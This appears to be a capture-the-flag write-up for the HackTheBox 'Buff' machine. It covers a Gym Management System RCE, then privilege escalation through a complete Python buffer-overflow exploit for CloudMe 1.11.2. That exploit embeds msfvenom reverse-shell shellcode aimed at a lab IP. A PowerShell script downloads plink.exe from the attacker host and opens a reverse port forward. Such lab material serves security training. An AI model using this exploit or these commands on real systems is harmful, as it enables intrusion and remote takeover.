 ```yaml
---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - CloudMe
  - Gym-Management-System
  - RCE
  - buffer-overflow
  - exploit-dev
  - port-forwarding
  - Windows
---
```

# Resolution summary

>[!summary]
>- Gym Management System running on port 8080 is vulnerable to RCE
>- CloudMe service running on local port 8888 is vulnerable to Buffer Overflow
>- The PoC and the installer can be downloaded locally in order to develop the exploit, forward the local port and perform privilege escalation

## Improved skills

- Exploit known vulnerabilities
- Buffer overflow exploitation
- Fix known exploits
- Port forwarding

## Used tools

- nmap
- gobuster
- known exploits
- msfvenom
- plink.exe

---

# Information Gathering

Scanned all TCP ports:

```bash
root@kali:~/CTF/HackTheBox/Machine/Buff# nmap 10.10.10.198 -p 8080,7680 -sC -oA files/nmap/open-services
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-22 21:43 CEST
Nmap scan report for 10.10.10.198
Host is up (0.037s latency).

PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: mrb3n's Bro Hut

Nmap done: 1 IP address (1 host up) scanned in 10.76 seconds
```

# Enumeration

## Port 8080 - HTTP (Gym Management Software 1.0)

![2020-07-22-23-01-43.png](../../zzz_res/attachments/2020-07-22-23-01-43.png)

“Gym Management Software 1.0” == **Gym Management System 1.0**

# Exploitation

## Gym Management System 1.0 - Unauthenticated Remote Code Execution

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/48506)

![2020-07-22-23-04-20.png](../../zzz_res/attachments/2020-07-22-23-04-20.png)

![2020-07-22-23-26-40.png](../../zzz_res/attachments/2020-07-22-23-26-40.png)

# Privilege Escalation

## Local enumeration

Discovered CloudMe_1112 installer:

![18471753064989ce956ecd9d34bd149b.png](../../zzz_res/attachments/18471753064989ce956ecd9d34bd149b.png)

Enumerated listening ports:

```powershell
Proto  Local Address          Foreign Address        State

  TCP    0.0.0.0:135            BUFF:0                 LISTENING
  TCP    0.0.0.0:445            BUFF:0                 LISTENING
  TCP    0.0.0.0:5040           BUFF:0                 LISTENING
  TCP    0.0.0.0:7680           BUFF:0                 LISTENING
  TCP    0.0.0.0:8080           BUFF:0                 LISTENING
  TCP    0.0.0.0:49664          BUFF:0                 LISTENING
  TCP    0.0.0.0:49665          BUFF:0                 LISTENING
  TCP    0.0.0.0:49666          BUFF:0                 LISTENING
  TCP    0.0.0.0:49667          BUFF:0                 LISTENING
  TCP    0.0.0.0:49668          BUFF:0                 LISTENING
  TCP    0.0.0.0:49669          BUFF:0                 LISTENING
  TCP    10.10.10.198:139       BUFF:0                 LISTENING
  TCP    10.10.10.198:8080      10.10.14.29:48092      ESTABLISHED
  TCP    10.10.10.198:8080      10.10.14.39:40996      CLOSE_WAIT
  TCP    10.10.10.198:8080      10.10.14.39:41084      ESTABLISHED
  TCP    10.10.10.198:49697     10.10.14.39:http       ESTABLISHED
  TCP    10.10.10.198:49707     10.10.14.29:4000       ESTABLISHED
  TCP    127.0.0.1:3306         BUFF:0                 LISTENING
  TCP    127.0.0.1:8888         BUFF:0                 LISTENING
```

## CloudMe 1.11.2 - Buffer Overflow (PoC)

- [Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/48389)
- [Practical Exploitation Part [1] (CloudMe Sync 1.11.2 BufferOverFlow + SEH)](https://bufferoverflows.net/practical-exploitation-part-1-cloudme-sync-1-11-2-bufferoverflow-seh/)

Moved the CloudMe_1112.exe file locally and fixed the PoC:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.39 LPORT=443 -a x86 -f python -b  '\x00\x0A\x0D' --> LEN 351
buf =  b""                                                                                               
buf += b"\xbd\xae\xea\xd2\xc4\xd9\xc3\xd9\x74\x24\xf4\x58\x31"                                           
buf += b"\xc9\xb1\x52\x31\x68\x12\x83\xc0\x04\x03\xc6\xe4\x30"                                           
buf += b"\x31\xea\x11\x36\xba\x12\xe2\x57\x32\xf7\xd3\x57\x20"
buf += b"\x7c\x43\x68\x22\xd0\x68\x03\x66\xc0\xfb\x61\xaf\xe7"
buf += b"\x4c\xcf\x89\xc6\x4d\x7c\xe9\x49\xce\x7f\x3e\xa9\xef"
buf += b"\x4f\x33\xa8\x28\xad\xbe\xf8\xe1\xb9\x6d\xec\x86\xf4"
buf += b"\xad\x87\xd5\x19\xb6\x74\xad\x18\x97\x2b\xa5\x42\x37"
buf += b"\xca\x6a\xff\x7e\xd4\x6f\x3a\xc8\x6f\x5b\xb0\xcb\xb9"
buf += b"\x95\x39\x67\x84\x19\xc8\x79\xc1\x9e\x33\x0c\x3b\xdd"
buf += b"\xce\x17\xf8\x9f\x14\x9d\x1a\x07\xde\x05\xc6\xb9\x33"
buf += b"\xd3\x8d\xb6\xf8\x97\xc9\xda\xff\x74\x62\xe6\x74\x7b"
buf += b"\xa4\x6e\xce\x58\x60\x2a\x94\xc1\x31\x96\x7b\xfd\x21"
buf += b"\x79\x23\x5b\x2a\x94\x30\xd6\x71\xf1\xf5\xdb\x89\x01"
buf += b"\x92\x6c\xfa\x33\x3d\xc7\x94\x7f\xb6\xc1\x63\x7f\xed"
buf += b"\xb6\xfb\x7e\x0e\xc7\xd2\x44\x5a\x97\x4c\x6c\xe3\x7c"
buf += b"\x8c\x91\x36\xd2\xdc\x3d\xe9\x93\x8c\xfd\x59\x7c\xc6"
buf += b"\xf1\x86\x9c\xe9\xdb\xae\x37\x10\x8c\xda\xcd\x14\x6b"
buf += b"\xb3\xd3\x28\x72\xf8\x5d\xce\x1e\xee\x0b\x59\xb7\x97"
buf += b"\x11\x11\x26\x57\x8c\x5c\x68\xd3\x23\xa1\x27\x14\x49"
buf += b"\xb1\xd0\xd4\x04\xeb\x77\xea\xb2\x83\x14\x79\x59\x53"
buf += b"\x52\x62\xf6\x04\x33\x54\x0f\xc0\xa9\xcf\xb9\xf6\x33"
buf += b"\x89\x82\xb2\xef\x6a\x0c\x3b\x7d\xd6\x2a\x2b\xbb\xd7"
buf += b"\x76\x1f\x13\x8e\x20\xc9\xd5\x78\x83\xa3\x8f\xd7\x4d"
buf += b"\x23\x49\x14\x4e\x35\x56\x71\x38\xd9\xe7\x2c\x7d\xe6"
buf += b"\xc8\xb8\x89\x9f\x34\x59\x75\x4a\xfd\x69\x3c\xd6\x54"
buf += b"\xe2\x99\x83\xe4\x6f\x1a\x7e\x2a\x96\x99\x8a\xd3\x6d"
buf += b"\x81\xff\xd6\x2a\x05\xec\xaa\x23\xe0\x12\x18\x43\x21"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + buf))

expl = padding1 + EIP + NOPS + buf + overrun

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(expl)
except Exception as e:
        print(sys.exc_value)
```

Created a wget script to copy plink.exe in order to expose local port 8888:

```powershell
echo '$webclient = New-Object System.Net.WebClient' > wget.ps1
echo '$url = "http://10.10.14.39/plink-x64.exe"' >>wget.ps1
echo '$file = "plink.exe"' >>wget.ps1
echo '$webclient.DownloadFile($url,$file)' >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

.\plink.exe -ssh -l root -R 8888:127.0.0.1:8888 10.10.14.39
```

![1cd90c62496ddfac40291e3ccdca6c9f.png](../../zzz_res/attachments/1cd90c62496ddfac40291e3ccdca6c9f.png)

![f22d6b4d0d6c7ddd22d3418e69733305.png](../../zzz_res/attachments/f22d6b4d0d6c7ddd22d3418e69733305.png)

![5f2268f30a39e52d1896668473c6d3b7.png](../../zzz_res/attachments/5f2268f30a39e52d1896668473c6d3b7.png)

# Trophy

>[!quote]
>It is better to have your head in the clouds, and know where you are... than to breathe the clearer atmosphere below them, and think that you are in paradise.
>
>\- Henry David Thoreau 

>[!success]
>**User.txt**
>4b5b023a28f09d7bbace384b13095dfe

>[!success]
>**Root.txt**
>a19f68f858b4464cdc8a7d5415d7bd0f

